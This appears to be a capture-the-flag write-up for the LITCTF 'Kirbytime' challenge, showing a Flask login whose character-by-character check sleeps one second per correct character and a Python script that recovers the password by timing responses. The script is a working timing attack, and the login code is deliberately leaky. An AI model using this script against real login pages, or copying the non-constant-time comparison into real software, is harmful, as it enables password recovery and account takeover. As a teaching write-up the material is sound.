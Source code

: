 ```yaml
---
title: Kirbytime
date : 2024-08-13 10:00:00 +0530
categories: [litctf , ctf]
tags: [litctf, ctf]
description: kirbytime
---
```


## Description

Welcome to Kirby's Website.

## Source Code

```python
@app.route('/', methods=['GET', 'POST'])
def login():
    message = None
    if request.method == 'POST':
        password = request.form['password']
        real = 'ABCDEFG'
        if len(password) != 7:
            return render_template('login.html', message="you need 7 chars")
        for i in range(len(password)):
            if password[i] != real[i]:
                message = "incorrect"
                return render_template('login.html', message=message)
            else:
                time.sleep(1)
        if password == real:
            message = "yayy! hi kirby"

    return render_template('login.html', message=message)
```

## Analysis

The website is a simple login page. We have to enter the correct password to get the flag. The password is the flag.

So the password checker is interesting. The first condition is very simple which is password is 7 characters long. The second condition is where the magic happens.

The 2nd function checks the password character by character. If the character is correct it waits for 1 second. If the character is incorrect it returns incorrect.

## How to abuse this

So the condition of `time.sleep(1)` helps us indicate if the character we entered is correct or not. If the character is correct it waits for 1 more second ie. Our wait time increases as the correct characters increase.

So we can bruteforce the password character by character. Which makes the usual `52^7` bruteforce to `52*7` bruteforce which is very doable. ( considering only alphabets )

## Bruteforce Script

So we can write a script where we calculate the delay and if the delay is increased we can move to the next character as that will be the correct character.

```python
import requests 
import time

url = "<url>"
def brute_password():
    chars = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ"
    password = "aaaaaaa" #kBySlaY
    i = 0
    j = 0
    while True:
        while j < len(chars):
            starttime = time.time()
            response = requests.post(url, data={"password": password}).text
            endtime = time.time()

            if "yayy! hi kirby" in response:
                return password
            delay = endtime - starttime
            p = i
            i = int(delay)
            if i > p:
                j = 0
            print(delay)
            password = password[:i] + chars[j] + password[i+1:]
            print(password)
            j+=1

password = brute_password()
print(f"Password found: {password}")
```

Now this script does take some time ~30-40 minutes to get the flag. I tried to use conconcurrency but the server was not responding well to concurrent requests as it did on my local instance. So I had to go with a single request at a time approach.

> `Flag: LITCTF{kBySlaY}`

---

[back to index](/posts/LIT-Index/)